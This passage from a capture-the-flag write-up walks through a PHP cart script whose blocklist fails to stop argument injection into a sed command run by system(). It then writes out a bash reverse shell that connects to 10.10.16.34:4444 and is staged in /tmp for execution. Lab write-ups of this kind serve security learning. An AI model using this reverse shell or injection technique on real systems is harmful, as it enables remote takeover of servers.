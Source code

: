 - Now to the juicy part!
```bash
cat -n cart_actions.php

	49	//delete from cart
    50	if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
    51	    $item_id = $_POST['item'];
    52	    $user_id = $_POST['user'];
    53	    $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!
    54	
    55	    foreach($bad_chars as $bad) {
    56	        if(strpos($item_id, $bad) !== FALSE) {
    57	            echo "Bad character detected!";
    58	            exit;
    59	        }
    60	    }
    61	
    62	    foreach($bad_chars as $bad) {
    63	        if(strpos($user_id, $bad) !== FALSE) {
    64	            echo "Bad character detected!";
    65	            exit;
    66	        }
    67	    }
    68	    if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
    69	        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
    70	        echo "Item removed from cart";
    71	    }
    72	    else {
    73	        echo "Invalid item";
    74	    }
    75	    exit;
    76	}
```

- On lines 68-70 we can see that `sed` is being used. 
- If we can pass in data to `item_id` we can directly execute a script within the file-system if we pass the `-e` argument.
- This argument will execute when the item is deleted.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230122004235.png)

Let's check `BurpSuite` for this one. 

![image](https://0xc0rvu5.github.io/docs/assets/images/20230122004349.png)

- There shouldn't be any reason we can't craft a specific `item_id` on client-side.
- On `bean` create a reverse shell. I'm using the `hack-tools` extension.
- I'll name it `quick.sh` and place it in the `/tmp` directory.
	- `/tmp/quich.sh`
```bash
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.16.34/4444 <&1'
```
- Make sure to make it executable for all.
```bash
chmod +x /tmp/quick.sh
```
